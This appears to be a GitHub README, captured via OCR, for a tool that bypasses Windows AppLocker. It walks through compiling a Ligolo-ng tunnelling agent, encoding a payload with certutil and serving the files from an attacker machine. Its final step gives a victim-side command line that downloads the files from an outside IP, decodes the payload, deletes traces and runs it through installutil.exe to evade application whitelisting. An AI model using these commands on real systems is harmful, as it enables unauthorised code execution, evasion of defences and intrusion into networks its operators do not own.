 Source: https://github.com/LorisDietrich/ApplockerBypassExternalBinary

### <ins>Step 1: Modify the Ligolo-ng agent's main file</ins>
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  - <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### <ins>Step 2: Compile the agent<ins/> 
  - Use the following command to compile: 
  - `GOOS=windows go build -o agent.exe cmd/agent/main.go`

### <ins>Step 3: Encode the ApplockerBypassExternalBinary executable with certutil<ins/> 
  - `certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.txt`

### <ins>Step 4: Execution on the Target Machine<ins/>
  - Name the agent executable `ligolo-agent.exe` 
  - Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### <ins/>Step 5: Execution in Action!<ins/> 
  - On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
